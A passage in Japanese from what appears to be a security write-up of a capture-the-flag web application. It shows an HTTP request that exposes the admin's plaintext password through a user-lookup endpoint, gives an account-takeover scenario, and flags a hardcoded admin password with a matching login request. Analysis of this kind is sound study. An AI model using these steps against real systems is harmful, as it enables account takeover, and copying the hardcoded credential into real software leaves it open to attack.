 #### 2. 管理者UUIDの取得
管理者のユーザー名は`admin`とハードコードされています（models.py 52行）。
UUIDを推測するか、他の方法で取得する必要があります。

記事の作成者情報などから管理者のUUIDを特定できる可能性があります。

#### 3. パスワード取得
```http
GET /users/{admin_uuid}
Cookie: session=...
```

レスポンス：
```json
{
    "uuid": "admin-uuid",
    "username": "admin",
    "email": "admin@securinets.tn",
    "phone_number": "77777777",
    "role": "0",
    "password": "somepass"
}
```

### 攻撃シナリオ
1. エディター（role=1）としてアカウント登録
2. 管理者のUUIDを特定（記事作成者情報など）
3. `/users/{admin_uuid}`にアクセス
4. 管理者のパスワードを取得
5. 管理者としてログイン

---

## 🟠 脆弱性4: ハードコードされた管理者パスワード

### 場所
**ファイル**: `models.py`  
**行**: 51  

### 脆弱性の詳細
```python
c.execute("SELECT COUNT(*) FROM users WHERE username='admin'")
if c.fetchone()[0] == 0:
    admin_uuid = str(uuid4())
    password = 'somepass'
    c.execute("INSERT INTO users VALUES (?, ?, ?, ?, ?, ?)", 
             (admin_uuid, 'admin', 'admin@securinets.tn', '77777777', password, '0'))
```

管理者のパスワードが`somepass`とハードコードされており、簡単に推測可能です。

### エクスプロイト方法
```http
POST /login
username=admin&password=somepass
```
